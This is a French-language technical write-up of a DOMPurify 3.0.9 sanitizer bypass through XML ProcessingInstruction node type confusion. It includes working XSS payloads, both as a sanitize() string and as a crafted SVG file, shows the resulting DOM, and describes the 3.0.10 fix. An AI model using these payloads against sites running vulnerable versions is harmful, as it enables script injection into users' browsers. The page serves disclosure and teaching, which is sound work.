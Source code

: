 ```yaml
---
description: 03 mai 2024
---
```


# Dompurify 3.0.9 bypass - Node type confusion

> Cet article se base sur les recherches de [slonser\_](https://twitter.com/slonser\_) ([https://blog.slonser.info/posts/dompurify-node-type-confusion/](https://blog.slonser.info/posts/dompurify-node-type-confusion/)).

## Confusion HTML et XML

Au sein d'un document HTML, rien n'empêche un noeud XML d'avoir un noeud HTML en tant que parent. C'est par exemple le cas d'un SVG intégré au sein d'une page HTML :

```html
<div id="userContent">
  <svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
    <rect width="50" height="50" fill="green" />
  </svg>
</div>
```

L'image vectorielle s'affichant sans erreur au sein de la page.

### L'interface ProcessingInstruction

L'interface `ProcessingInstruction` représente un noeud qui intègre une instruction de traitement spécifique à une application XML. Elle possède le format suivant :&#x20;

```xml
<?target data?>
```

Par exemple :&#x20;

```xml
<?xml-stylesheet href="style.css"?>
```

Lorsque Dompurify assainit une chaîne de caractères de type XML, et que l'option adéquate est :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?xml-stylesheet <img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'}); 
```

Les instructions de traitement (processing instructions) ne semblent pas être assainies par la bibliothèque. L'évenement `onerror` ainsi que l'appel à la méthode `alert()` ne sont pas supprimés : &#x20;

```html
<div id="userContent">
  <!--?xml-stylesheet <img src=x onerror=alert(1)-->
  "?>"
</div>
```

Malheureusement, le code est commenté par le navigateur, empêchant ainsi son exécution : &#x20;

<figure><img src="../../../.gitbook/assets/image (328).png" alt=""><figcaption><p><a href="https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction">https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction</a></p></figcaption></figure>

Toutefois, le navigateur commente le code jusqu'à rencontrer le prochain caractère `>`, il est donc possible d'exploiter ce comportemement de la façon suivante :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?xml-stylesheet ><img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'}); 
```

L'affichage de la page HTML provoque dorénavant l'exécution de la méthode `alert()` :&#x20;

```html
<div id="userContent">
  <!--?xml-stylesheet -->
  <img src="x" onerror="alert(1)">
  "?>"
</div>
```

Par défaut, Dompurify traite la chaîne de caractères comme du HTML, et non du XML, excepté si l'option `{PARSER_MEDIA_TYPE: 'application/xhtml+xml'}` est spécifée. De plus, il est assez rare d'identifier une cible imposant ce type de média et intégrant ensuite la donnée assainie au sein d'un document HTML.

### Assainissement d'un noeud

La manière la plus fréquente d'utiliser la méthode `sanitize()` de Dompurify est de lui passer une chaîne de caractères en tant que paramètre :&#x20;

{% code fullWidth="false" %}
```javascript
DOMPurify.sanitize("<img src='https://example.com/image.png'>")
```
{% endcode %}

Mais bien que moins utilisé, il est également possible de lui passer directement un noeud :&#x20;

```javascript
let img = document.createElement('img');
img.src = "https://example.com/image.png";

let userContent= document.getElementById('userContent');            
userContent.innerHTML = DOMPurify.sanitize(img);
```

Toutefois, lorsque le noeud est un noeud XML, le même comportement que précédent est possible lors de l'utilisation des instructions de traitement.

L'exemple suivant illustre une fonctionnalité permettant à l'utilisateur de fournir une URL afin de charger un fichier SVG, qui sera assaini par Dompurify avant d'être intégré au document HTML :

```javascript
let xhr = new XMLHttpRequest();

xhr.onreadystatechange = function() {
  if (xhr.readyState === 4 && xhr.status === 200) {
    let content = xhr.responseText;
    let extension = xhr.responseURL.split('.').pop().toLowerCase();

    if (extension === "svg") {
      let svg = new DOMParser().parseFromString(content, "image/svg+xml").documentElement;
      let userContent= document.getElementById('userContent');
      userContent.innerHTML = DOMPurify.sanitize(svg);
    }
  }
}

xhr.open("GET", url, true);
xhr.send();
```

Lorsque l'utilisateur renseigne une URL vers un fichier SVG, tel que :&#x20;

```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?xml-stylesheet > <img src=x onerror="alert(1)">?>
</svg>
```

Dompurify échoue à assainir le noeud et permet l'exécution du code Javascript :&#x20;

```html
<div id="userContent"><svg viewBox="0 0 100 100" height="100" width="100" xmlns="http://www.w3.org/2000/svg">
  <rect fill="green" height="50" width="50"></rect>
  <!--?xml-stylesheet --> </svg><img src="x" onerror="alert(1)"> 
  "?>"
</div>
```

## Correction

Le correctif, apporté par la version 3.0.10 de Dompurify, consiste à l'ajout du masque `SHOW_PROCESSING_INSTRUCTION` lors du traitement des noeuds XML. Cela permet de traiter les noeuds de type `ProcessingInstruction` :&#x20;

```javascript
const _createNodeIterator = function _createNodeIterator(root) {
  return createNodeIterator.call(root.ownerDocument || root, root,
  // eslint-disable-next-line no-bitwise
  NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT | NodeFilter.SHOW_PROCESSING_INSTRUCTION, null);
};
```

Cette constante est définit par l'API DOM et utilisée par la méthode `createNodeIterator()`  ([https://developer.mozilla.org/en-US/docs/Web/API/Document/createNodeIterator](https://developer.mozilla.org/en-US/docs/Web/API/Document/createNodeIterator)).

## Labs

Afin de tester et d'exploiter ce contournement, une image Docker est disponible [ici](https://github.com/Sharpforce/cybersecurity-code/tree/master/dompurify-3.0.9-bypass-node-type-confusion).

